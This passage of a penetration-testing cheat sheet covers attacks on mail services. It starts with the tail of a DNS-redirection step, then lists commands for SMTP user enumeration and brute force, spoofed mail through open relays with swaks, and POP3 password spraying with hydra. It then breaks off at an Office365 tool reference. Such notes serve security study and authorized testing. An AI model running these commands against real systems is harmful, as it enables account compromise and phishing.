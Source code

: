 Then we can activate the attack by going to `Plugins` -> `Manage Plgugins`. If successful, this attack will redirect users attempting to visit the domain to a fake page that we control. Additionally, pinging the domain should ping our IP as well.
# Mail Servers
### SMTP
**Nmap**
```shell
nmap -p25 --script smtp-commands <IP>
nmap -p25 --script smtp-open-relay <IP> -v
nmap --script smtp-enum-users <IP>
```

**Connect to the Service**
```shell
telnet <IP> 25
```

**Checking User Validity**
```shell
VRFY <user> # will return whether or not a user is valid
EXPN <user or list> # similar to VRFY  but can list users
```

**Username Brute Force**
```shell
smtp-user-enum -M RCPT -U userlist.txt -D <email domain> -t <IP>
```

**Open Relay**
Allows mail from any source to be re-routed through the open relay server. Masks the source of messages and makes it look like it came from open relay server.

The `nmap` script above checks for open relay. If it's allowed, here's how we can send mail:
```shell
swaks --from <sender> --to <recipient> --header 'Subject: <subject>' --body '<message>' --server <IP>
```

### POP3
**Connecting to the Server**
```shell
telnet 10.10.110.20 110
```

**Checking User Validity**
```shell
USER <username>
```

**Password Attack**
```shell
hydra -L users.txt -p '<password>' -f <IP> pop3 # also works for other email servers
```
### Office365
This all uses [`O365Spray`](https://github.com/0xZDH/o365spray)
